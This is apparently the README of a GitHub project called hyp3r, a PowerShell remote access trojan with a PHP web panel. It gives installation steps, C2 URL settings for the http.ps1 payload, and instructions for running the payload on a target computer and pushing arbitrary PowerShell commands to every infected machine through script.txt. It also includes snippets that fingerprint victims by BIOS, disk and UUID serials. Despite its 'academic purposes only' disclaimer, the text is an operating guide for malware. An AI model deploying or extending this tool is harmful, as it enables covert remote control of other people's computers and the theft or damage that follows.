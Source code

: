 # hyp3r
<hr>
hyp3r is a basic RAT written in powershell.
<br>
**DISCLAIMER: THIS PROJECT IS FOR ACADEMIC PURPOSES ONLY. THE DEVELOPERS TAKE NO RESPONSIBILITY FOR ILLEGAL USAGE AND/OR POTENTIAL HARMS.**
<hr>
## Requirements
  - PHP 8.0.2 (might work on older versions as well).
  - apache web server.
  - powershell version 5.1 (might work on older versions as well) installed on the target computer for cmdlets to run.

## Features
  - webGUI.
  - live target status.
  - remote shell execution.
  - multi-target support (the script can handle as many targets as your server can).
  - simple and easy to customize scripts.

## Notes
  - the timezone of both the server and the payload are set to GTB Standard Time so take that into account if you want to modify the inner workings of the script.
  - remember to modify the parameters inside the payload (`http.ps1`) to suit your needs.

## Installation

### 1. Clone this repository

You can use git to clone this repository or download .zip file from GitHub.

```bash
git clone https://github.com/xze3n/hyp3r.git
cd hyp3r/
```

### 2. Configure
  - Copy the contents of the `apache` folder to your webserver's page folder.
  - Edit lines `2`, `3` and `4` inside `http.ps1` as follows: 
        ```powershell
        $verurl = 'http://your_website_url_or_ip/script.txt'
        $url = 'http://your_website_url_or_ip'
        $stop = 'the syntax of your choice to force stop the payload on the target machine'
        ```
  - Save and close the file. The installation is now complete!

## Usage

### 1. Start your webserver.
### 2. Run the powershell payload on the target computer.
### 3. Open `localhost` inside a browser to see the active connections.

### To run commands on the target computer(s) open the file called `script.txt` inside your webserver's page folder and modify its contents
  - Example:
        ```powershell
        [System.Console]::Beep(1000,300)
        ```
  -the syntax above will result in a short *beep* given out by the target
### Notes:
  - The commands or scripts you write inside `script.txt` must be powershell code (obviously).
  - If you have multiple targets that listen to the same server the commands inside `script.txt` will be ran by all of the computers listening.
  - If you want to run a command only on one of the targets you will have to get a little creative:
        ```powershell
        if($env:COMPUTERNAME -eq "TARGET-PC") {
          echo "now it will only be executed by targets with the user TARGET-PC"
        }
        ```
  - If the COMPUTERNAME identifier is way to simple and it brings up problems you can use the scripts unique identifier composed of the biosid hddid and uuid of the target computer
        ```powershell
        $a=Get-WmiObject win32_bios | Format-List SerialNumber | out-string; $id_bios=$a.split(' ')[2].Trim(); #bios id
	      $b=wmic diskdrive get serialnumber; $id_hdd=$b.split('\n')[2].Trim(); #hdd id
	      $c=Get-WmiObject -Class Win32_ComputerSystemProduct | Select-Object -Property UUID | out-string;$id_uuid=$c.split(' ')[64].Trim() #uuid
        $ids=$ids=$id_bios, $id_hdd, $id_uuid; $ids=[system.String]::Join("_", $ids);
        if($ids -eq "UNIQUE_IDENTIFIER") {
          doStuff()
        }
        ```
  - You can get the UNIQUE_IDENTIFIER of a computer from the `data.txt` file inside the webserver's page folder: eg. `CND83492ZZ_69BCTDGFT_760BD1B8-5170-E821-A4C3-1063E5C2E22F`.
